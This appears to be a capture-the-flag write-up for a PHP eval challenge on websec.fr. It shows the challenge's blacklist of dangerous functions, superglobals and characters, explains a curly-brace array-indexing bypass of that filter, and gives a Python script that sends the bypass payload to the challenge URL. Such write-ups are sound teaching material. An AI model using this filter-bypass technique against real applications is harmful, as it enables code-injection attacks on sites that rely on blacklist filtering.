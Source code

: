 ```php
$funcs_extra = array ('eval', 'include', 'require', 'function');
$funny_chars = array ('\.', '\+', '-', '"', ';', '`', '\[', '\]');
$variables = array ('_GET', '_POST', '_COOKIE', '_REQUEST', '_SERVER', '_FILES', '_ENV', 'HTTP_ENV_VARS', '_SESSION', 'GLOBALS');

$blacklist = array_merge($funcs_internal, $funcs_extra, $funny_chars, $variables);

$insecure = false;
foreach ($blacklist as $blacklisted) {
    if (preg_match ('/' . $blacklisted . '/im', $code)) {
        $insecure = true;
        break;
    }
}

if ($insecure) {
    echo 'Insecure code detected!';
} else {
    eval ("echo $code;");
}
```

Flag is located within `$a`. 
There's a while list of functions within `$funcs_internal` that is retrieved using `get_desired_functions`. 

The answer was to somehow dump out the value stored in A. Testing the input, it seems to allow me to specify `$blacklisted{1}`, which is equivalent to `[1]`.

{% embed url="https://stackoverflow.com/questions/8092248/php-curly-braces-in-array-notation" %}

Using `$blacklist{1}` would thus allow me to read that array. This means that the code is still evaluated via that function. Since I had to dump the object values, using `var_dump` is best, I just have to find it within the `blacklist` array.

```python
import requests

url = 'https://websec.fr/level22/index.php'
i = 0


while True:
    payload = {'code': '$blacklist{' + str(i) + '}'}
    r = requests.get(url, params=payload)

    if r.status_code == 200:
        lines = r.text.splitlines()
        print(str(i) +': '+ lines[-7])

        i += 1
    else:
        print(f"Error: {r.status_code}")
        break
```
